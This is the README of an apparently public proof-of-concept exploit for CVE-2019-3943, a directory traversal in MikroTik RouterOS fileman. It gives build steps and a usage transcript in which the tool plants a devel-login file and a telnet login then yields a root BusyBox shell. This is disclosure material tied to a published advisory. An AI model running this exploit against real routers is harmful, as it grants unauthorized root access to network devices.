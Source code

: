 # CVE-2019-3943 Flash Dev Shell Proof of Concept

This is an implementation of CVE-2019-3943 which is a directory traversal vulnerability affecting the fileman binary in Router OS. This vulnerability was patched in 6.44RC1. See Tenable's advisory at: https://www.tenable.com/security/research/tra-2019-16 

The PoC creates the file /flash/nova/etc/devel-login that enables the devel shell in 6.0 - 6.40.9

## What are the build dependencies?

This requires:

* Boost 1.66 or higher
* cmake

## How do I build this jawn?

Just normal cmake. Try this:

```sh
mkdir build
cd build
cmake ..
make
```

Resolve dependencies as needed.

## Usage

```sh
albinolobster@ubuntu:~/routeros_internal/poc/cve_2019_3943_dev_shell/build$ ./cve_2019_3943_dev_shell -i 192.168.1.18 -u admin
Success!
albinolobster@ubuntu:~/routeros_internal/poc/cve_2019_3943_dev_shell/build$ telnet 192.168.1.18
Trying 192.168.1.18...
Connected to 192.168.1.18.
Escape character is '^]'.

MikroTik v6.39.3 (bugfix)
Login: devel
Password: 


BusyBox v1.00 (2017.10.10-07:06+0000) Built-in shell (ash)
Enter 'help' for a list of built-in commands.

# 
```
